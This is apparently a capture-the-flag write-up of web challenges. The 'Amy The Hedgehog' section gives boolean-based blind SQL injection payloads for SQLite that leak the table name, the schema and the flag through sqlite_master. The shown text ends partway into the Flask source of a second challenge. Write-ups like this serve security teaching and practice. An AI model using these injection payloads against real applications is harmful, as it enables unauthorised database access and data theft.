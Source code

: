 ```javascript
```

![image](https://user-images.githubusercontent.com/75429369/180777954-51085d5f-e9ad-4169-9b22-fdc961f60e85.png)

# Amy The Hedgehog

![image](https://user-images.githubusercontent.com/75429369/180778040-6da0b50d-11a9-4d8f-b15d-9da5252a81c1.png)

![image](https://user-images.githubusercontent.com/75429369/180778066-6c9546ca-39af-4d9b-9567-2120419ed143.png)

Another sqli challenge (the description said it all ...), let's test it out

```
' or 1=1 --
```

![image](https://user-images.githubusercontent.com/75429369/180778178-7aab1cc0-90c8-49c0-8037-c699d5a13494.png)

```
' or 1=0 --
```

![image](https://user-images.githubusercontent.com/75429369/180778213-132fced2-1f97-438a-b47f-8c4e9395e1fc.png)

Easy to know it's blind sqli using boolean based, I'll leave the payload for exploit here because I have deleted the script and too lazy to redo it :P

Leak table name
```
' or (select hex(substr(tbl_name,1,1)) from sqlite_master where type='table' and tbl_name NOT like 'sqlite_%') = hex('n') --
```

Leak table info
```
' or (select hex(substr(sql,1,1)) from sqlite_master where type!='meta' and sql NOT NULL and name='names') = hex('a') --
```

Get the flag
```
' or (select hex(substr(name,1,1)) from names) = hex('L') --
```

# Flushed Emoji

The challenge gave us a site and when we click on the flushed emoji button, it will have a pop up which has a login form like this

![image](https://user-images.githubusercontent.com/75429369/180778854-fcc4f3ba-2e6a-4f63-988e-ac12bf3d8e6b.png)

main.py
```python
import sqlite3
from flask import Flask, render_template, render_template_string, redirect, url_for, request
import requests;
import re;

app = Flask(__name__)


def alphanumericalOnly(str):
  return re.sub(r'[^a-zA-Z0-9]', '', str);

@app.route('/', methods=['GET', 'POST'])
def login():
```